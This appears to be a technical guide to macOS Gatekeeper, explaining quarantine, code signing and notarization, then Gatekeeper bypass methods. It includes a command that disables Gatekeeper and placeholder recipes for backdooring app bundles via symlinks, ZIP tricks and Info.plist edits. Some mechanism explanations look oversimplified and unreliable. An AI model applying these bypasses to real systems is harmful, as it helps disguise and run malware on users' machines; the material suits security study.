macOS `Gatekeeper` is a security feature designed by Apple to protect users from executing potentially malicious software. It plays a crucial role in macOS's security architecture by controlling which applications can run on the system, particularly those downloaded from the internet. This guide delves into the technical workings of Gatekeeper, its internal mechanisms, how it handles security checks, and the various ways it can be bypassed, along with mitigation strategies.

## **Gatekeeper's Core Functionality**

`Gatekeeper` is designed to ensure that only trusted software can be executed on macOS. It achieves this by enforcing several checks on applications, especially those downloaded from the internet. The key components of Gatekeeper's operation include file quarantine, code signing, and notarization.

### **File Quarantine**

When a file is downloaded from the internet, macOS tags it with a `com.apple.quarantine` extended attribute. This attribute indicates that the file needs to undergo security checks before it can be executed. This tagging typically happens when files are downloaded through browsers, email clients, or messaging apps.

**Checking Quarantine Attribute**
 ```bash
 xattr -p com.apple.quarantine /path/to/downloaded/file
 ```
 This command checks if a file has the quarantine attribute.



### **Code Signing and Notarization**
   - **Code Signing:** Before an application can be executed, Gatekeeper verifies the digital signature of the application. The signature ensures that the app has not been tampered with and is from a recognized developer.
   - **Notarization:** Apple introduced notarization as an additional layer of security. Notarized apps are scanned by Apple’s servers for known malware before they are distributed. Gatekeeper checks for a notarization ticket either stapled to the app or available from Apple’s servers.


**Verifying a Code Signature**
 ```bash
 codesign -dv --verbose=4 /path/to/app
 ```
 This command displays detailed information about the code signature of an application.



## **Internal Workings of Gatekeeper**

Gatekeeper integrates deeply with macOS's security architecture. It leverages several subsystems to perform its checks:

### **spctl (Security Policy Control)**
The `spctl` tool is the command-line interface to interact with Gatekeeper. It allows administrators to query and modify Gatekeeper’s security policies.

**Checking Gatekeeper Status**
 ```bash
 spctl --status
 ```
 This command returns the current status of Gatekeeper.


**Modifying Gatekeeper’s Behavior**
 ```bash
 sudo spctl --master-disable
 ```
 This command disables Gatekeeper, allowing all applications to run regardless of their source.


### **First Launch Validation**
Gatekeeper’s primary function is to validate an application on its first launch. It checks the app’s digital signature and notarization status, ensuring that the app hasn’t been tampered with and is from an identified developer.

- **Internal Workflow:**
     - **Step 1:** User downloads an app, which is tagged with the quarantine attribute.
     - **Step 2:** Upon first launch, Gatekeeper intercepts the launch and verifies the app’s signature against Apple’s records.
     - **Step 3:** If the app is notarized, Gatekeeper checks the notarization ticket.
     - **Step 4:** If all checks pass, the quarantine attribute is removed, and the app is allowed to execute.



### **Enhanced Security in macOS Ventura (macOS 13)**
In macOS Ventura, Gatekeeper’s security checks have been expanded. Now, not only is the app’s integrity checked on the first launch, but Gatekeeper also monitors the app for unauthorized modifications. If an app is altered after its initial launch (e.g., through an update or tampering), Gatekeeper will revalidate its integrity.

   - **Internal Changes:**
     - **File System Monitoring:** Gatekeeper now tracks changes to app bundles, such as modifications to the executable, resources, or `Info.plist` file.
     - **User Alerts:** If Gatekeeper detects unauthorized changes, it alerts the user and blocks the app from running.



## Gatekeeper Bypass

macOS Gatekeeper is a robust security mechanism designed to protect users from running unverified or potentially harmful software. However, like all security measures, it is not immune to bypass techniques. This section will explore several advanced methods that attackers have used to circumvent Gatekeeper, providing detailed explanations, code examples, and step-by-step guides.

## **Clever ZIP Archives**

One of the more straightforward but effective techniques to bypass Gatekeeper is by manipulating the way ZIP archives handle the quarantine attribute. The key idea is to create a ZIP archive that prevents macOS from applying the `com.apple.quarantine` attribute correctly.

1. **Crafting the ZIP Archive:**
The attacker can create a ZIP archive with a structure that confuses macOS's quarantine process. For example, by placing a symlink to the executable inside the ZIP archive rather than the executable itself.

**Creating a Malicious ZIP Archive**
 ```bash
 ln -s /path/to/malicious_app /tmp/link_to_app
 zip -r malicious.zip /tmp/link_to_app
 ```

2. **Download and Extract:**
When the user downloads and extracts the ZIP file, the symlink is followed, and the actual executable is placed in a location where the quarantine attribute is not applied.

3. **Execution:**
Since the quarantine attribute is not set, Gatekeeper’s checks are bypassed, and the application can be executed without triggering any security warnings.



Consider a scenario where an attacker uses this technique to distribute a backdoored version of a legitimate application. When users download and extract the archive, they inadvertently run the malicious application without Gatekeeper intervening.

### **Symlink Attacks**

Symlink attacks exploit the way macOS handles symbolic links during the quarantine process. By using symlinks, attackers can trick Gatekeeper into executing untrusted or malicious binaries.

1. **Creating the Symlink:**
The attacker creates a symlink pointing to the malicious executable.

**Creating a Symlink**
 ```bash
 ln -s /path/to/malicious_binary /path/to/legit_app/Contents/MacOS/app_executable
 ```

2. **Packaging the Symlink:**
The symlink is included in a ZIP archive or distributed as part of a DMG file. The key is that the symlink points to a location outside the quarantine-controlled environment.

3. **Execution:**
When the user runs the legitimate-looking app, the symlink directs execution to the malicious binary, bypassing Gatekeeper because the actual executable is not where Gatekeeper expects it to be.




An attacker could distribute a seemingly benign application with a symlinked executable. When the user opens the application, it executes the linked malicious binary without passing through Gatekeeper’s security checks.

### **Modified Application Bundles**

Attackers can inject malicious code into legitimate application bundles. This technique often involves adding or modifying files within the app bundle, which can then be executed without triggering Gatekeeper.


1. **Injecting Malicious Code:**
The attacker modifies an existing application bundle by injecting a malicious script or binary. This could be done by placing a new executable in the `Contents/MacOS` directory of the application bundle.

**Injecting Code**
 ```bash
 echo "malicious code" > /path/to/legit_app/Contents/MacOS/malicious_executable
 chmod +x /path/to/legit_app/Contents/MacOS/malicious_executable
 ```

2. **Modifying the Info.plist:**
   - The attacker can also modify the `Info.plist` file within the bundle to point to the malicious executable instead of the legitimate one.

**Modifying Info.plist**
 ```xml
 <key>CFBundleExecutable</key>
 <string>malicious_executable</string>
 ```

3. **Execution:**
When the user opens the app, the modified `Info.plist` directs the system to execute the malicious code instead of the original app.



An attacker could distribute a legitimate application that has been backdoored with a malicious payload. The user believes they are running the intended application, but the altered `Info.plist` ensures that the malicious code is executed instead.

### **XCSSET Malware Attack**

The XCSSET malware family is known for using advanced techniques to bypass Gatekeeper, including modifying existing app bundles to include malicious payloads.


1. **Infecting Xcode Projects:**
XCSSET malware targets Xcode projects by injecting malicious code into them. When the developer builds and runs their project, the malware is included in the resulting app bundle.

2. **Spreading the Malware:**
The compromised app, now containing the malware, is distributed as normal. However, when users download and run the app, the malware payload is executed.

3. **Modifying Bundle Files:**
The malware modifies critical files within the app bundle, such as the `Info.plist` or `binary executable`, to ensure the malicious code is executed.



## GateKeeper Bypass Resources
- https://www.youtube.com/watch?v=dBIyjQH6E-c
- https://unit42.paloaltonetworks.com/gatekeeper-bypass-macos/
- https://cedowens.medium.com/macos-gatekeeper-bypass-2021-edition-5256a2955508
- https://redcanary.com/threat-detection-report/techniques/gatekeeper-bypass/
- https://www.jamf.com/blog/gatekeeper-flaws-on-macos/
- https://redcanary.com/blog/threat-detection/gatekeeper/
- https://book.hacktricks.xyz/macos-hardening/macos-security-and-privilege-escalation/macos-security-protections/macos-gatekeeper
- https://www.idownloadblog.com/2024/08/07/apple-macos-sequoia-gatekeeper-change-install-unsigned-apps-mac/
- https://blog.f-secure.com/discovery-of-gatekeeper-bypass-cve-2023-27943/
- https://gist.github.com/kennwhite/814ff7ed1fd62b921144035c877c3e4c
- https://antman1p-30185.medium.com/jumping-over-the-gate-da555c075208
- https://jhftss.github.io/CVE-2022-22616-Gatekeeper-Bypass/
- https://breakpoint.sh/posts/bypassing-the-macos-gatekeeper
- https://labs.withsecure.com/publications/analysis-of-cve-2021-1810-gatekeeper-bypass
- https://www.exploit-db.com/exploits/35934
- https://kyle-bailey.medium.com/detecting-macos-gatekeeper-bypass-cve-2021-30657-cc986a9bc751
- https://wojciechregula.blog/post/m1-macs-gatekeeper-bypass-aka-cve-2021-30658/
- https://www.fcvl.net/vulnerabilities/macosx-gatekeeper-bypass
- https://jhftss.github.io
- https://objective-see.org/blog/blog_0x6A.html
- https://s.itho.me/ccms_slides/2024/5/23/d1057739-ea3a-4288-9275-c3c9b0e3d6a8.pdf
- https://conference.hitb.org/hitbsecconf2022sin/materials/D1T1%20-%20One-Click%20to%20Completely%20Takeover%20a%20MacOS%20Device%20-%20Mickey%20Jin.pdf
- https://www.agoratech.eu/2022/12/19/gatekeepers-achilles-heel-unearthing-a-macos-vulnerability/
- https://www.ampliasecurity.com/blog/2015/01/27/bypassing_os_x_gatekeeper/
- https://packetstormsecurity.com/files/130147/OS-X-Gatekeeper-Bypass.html

